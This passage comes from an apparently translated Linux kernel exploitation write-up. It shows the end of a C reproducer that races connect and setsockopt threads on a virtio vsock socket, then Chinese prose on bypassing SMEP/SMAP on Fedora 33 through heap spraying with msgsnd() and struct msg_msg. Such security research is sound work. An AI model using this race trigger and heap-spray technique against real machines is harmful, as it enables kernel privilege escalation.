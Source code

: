             ret = pthread_create(&th[0], NULL, th_connect, &tmo1);
            if (ret != 0)
                err_exit("[-] pthread_create #0");

            ret = pthread_create(&th[1], NULL, th_setsockopt, &tmo2);
            if (ret != 0)
                err_exit("[-] pthread_create #1");

            ret = pthread_join(th[0], NULL);
            if (ret != 0)
                err_exit("[-] pthread_join #0");

            ret = pthread_join(th[1], NULL);
            if (ret != 0)
                err_exit("[-] pthread_join #1");

            if (tfail) {
                printf("[-] some thread got troubles\n");
                exit(EXIT_FAILURE);
            }
        }

        ret = close(vsock);
        if (ret)
            perror("[-] close");

        printf("[+] now see your warnings in the kernel log\n");
        return 0;
    }

<div lang="chinese" dir="ltr" class="mw-content-ltr">
這裡的size值取自`clock_gettime()`返回的納秒數，每次都可能不同。原始的syzkaller不會這麼處理，因為在syzkaller生成 fuzzing輸入時，syscall參數的值被確定，執行時不會改變。

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
四字節的力量
------------

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
這裡我選擇Fedora 33 Server作為研究目標，內核版本為5.10.11-200.fc33.x86_64，並決心繞過SMEP和SMAP。

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
第一步，我開始研究穩定的堆噴射，該漏洞利用執行用戶空間的活動，使內核在釋放的virtio_vsock_sock的位置分配另一個64字節的對象。經過幾次實驗性嘗試後，確認釋放的virtio_vsock_sock被覆蓋，說明堆噴射是可行的。最終我找到了msgsnd() syscall。它在內核空間中創建了struct msg_msg，見pahole輸出：

</div>
    struct msg_msg {
        struct list_head           m_list;               /*     0    16 */
        long int                   m_type;               /*    16     8 */
        size_t                     m_ts;                 /*    24     8 */
        struct msg_msgseg *        next;                 /*    32     8 */
        void *                     security;             /*    40     8 */

